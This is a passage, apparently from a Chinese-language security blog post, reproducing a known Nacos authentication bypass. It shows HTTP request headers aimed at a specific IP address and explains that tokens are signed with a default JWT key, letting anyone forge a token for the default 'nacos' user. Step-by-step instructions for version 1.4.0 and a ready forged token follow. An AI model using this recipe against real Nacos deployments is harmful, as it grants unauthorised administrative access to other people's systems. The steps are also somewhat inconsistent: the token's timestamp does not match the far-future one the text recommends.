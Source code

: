 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Origin: http://47.83.174.204:8848  
  
Connection: keep-alive  
  
Referer: http://47.83.174.204:8848/nacos/  
  
Priority: u=0  
  
```
```  
  
由于返回的accessToken只是对账号进行加密得到的.  
  
而且nacos加密用户accessToken使用的jwt默认密钥加密，也就是只要知到nacos的用户，任何人都能通过此密钥加密用户得到对应用户的accessToken.  
  
nacos存在默认用户nacos，所以我们可以尝试获取此默认用户的nacos。  
  
漏洞复现  
  
测试版本：nacos1.4.0  
  
1. 生成时间戳比现在时间晚就行，比如现在时间为2024.9.3，则修改为2024.9.4或者更晚的时间  
  
https://tool.lu/timestamp/  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia26lNcnUx5cicXWCSn86eQ7bNaJtNRXIG8rUru43bmNrJ8kNLmeh2rTQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
我直接生成到2080了直接用我的就行  
  
3481367106  
  
2. 生成key。  
  
https://jwt.io/  
  
复制默认的key，填写如下所示  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaHzMkMY0wafXEmSaz9Iu2ErmshYpib68xb0wm6MYoydicJh6ibcwfkxicQQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw  
  
  
{  
  
"sub": "nacos",  
  
"iat": 1745835608  
  
}  
  
{  
  
"alg": "HS256",  
  
"typ": "JWT"  
  
}  
  
  